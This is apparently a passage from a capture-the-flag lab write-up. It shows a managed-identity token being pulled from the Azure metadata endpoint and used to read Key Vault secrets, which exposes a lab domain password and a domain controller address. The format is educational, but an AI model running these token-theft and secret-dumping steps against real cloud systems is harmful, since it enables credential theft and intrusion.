 So in order to interact with the Key Vaults to get [Secrets](https://learn.microsoft.com/en-us/rest/api/keyvault/secrets/get-secrets/get-secrets?view=rest-keyvault-secrets-7.4&tabs=HTTP) and [Keys](https://learn.microsoft.com/en-us/rest/api/keyvault/keys/get-keys/get-keys?view=rest-keyvault-keys-7.4&tabs=HTTP) we need to generate a new access token, but using **https://vault.azure.net** as the resource, otherwise we get the following error:

```bash
{"error":{"code":"Unauthorized","message":"AKV10022: Invalid audience. Expected https://vault.azure.net, found: https://management.azure.com/."}}
```
So, we generate a new [token](vault_tok=$(curl -G -H "Metadata: true" "http://169.254.169.254/metadata/identity/oauth2/token?api-version=2018-02-01&resource=https://vault.azure.net" | jq '.access_token' | sed -r 's/\"//g')), and work to interact with the key vaults. Trying to access /keys for both vaults returns errors, same for northpole-ssh-certs-kv.vault.azure.net/secrets, but ...

```bash
labaster@ssh-server-vm:~$ curl -X GET -H "Authorization: Bearer $vault_tok" https://northpole-it-kv.vault.azure.net/secrets?api-version=7.4 | jq

{
  "value": [
    {
      "id": "https://northpole-it-kv.vault.azure.net/secrets/tmpAddUserScript",
      "attributes": {
        "enabled": true,
        "created": 1699564823,
        "updated": 1699564823,
        "recoveryLevel": "Recoverable+Purgeable",
        "recoverableDays": 90
      },
      "tags": {}
    }
  ],
  "nextLink": null
}

alabaster@ssh-server-vm:~$ curl -X GET -H "Authorization: Bearer $vault_tok" https://northpole-it-kv.vault.azure.net/secrets/tmpAddUserScript?api-version=7.4 | jq

{
  "value": "Import-Module ActiveDirectory; $UserName = \"elfy\"; $UserDomain = \"northpole.local\"; $UserUPN = \"$UserName@$UserDomain\"; $Password = ConvertTo-SecureString \"J4`ufC49/J4766\" -AsPlainText -Force; $DCIP = \"10.0.0.53\"; New-ADUser -UserPrincipalName $UserUPN -Name $UserName -GivenName $UserName -Surname \"\" -Enabled $true -AccountPassword $Password -Server $DCIP -PassThru",
  "id": "https://northpole-it-kv.vault.azure.net/secrets/tmpAddUserScript/ec4db66008024699b19df44f5272248d",
  "attributes": {
    "enabled": true,
    "created": 1699564823,
    "updated": 1699564823,
    "recoveryLevel": "Recoverable+Purgeable",
    "recoverableDays": 90
  },
  "tags": {}
}

```
Not only do we now have an IP address and domain name, but we have a set of credentials as well. Alabaster was kind enough to download [Impacket Tools](https://github.com/fortra/impacket) and [Certipy](https://github.com/ly4k/Certipy).
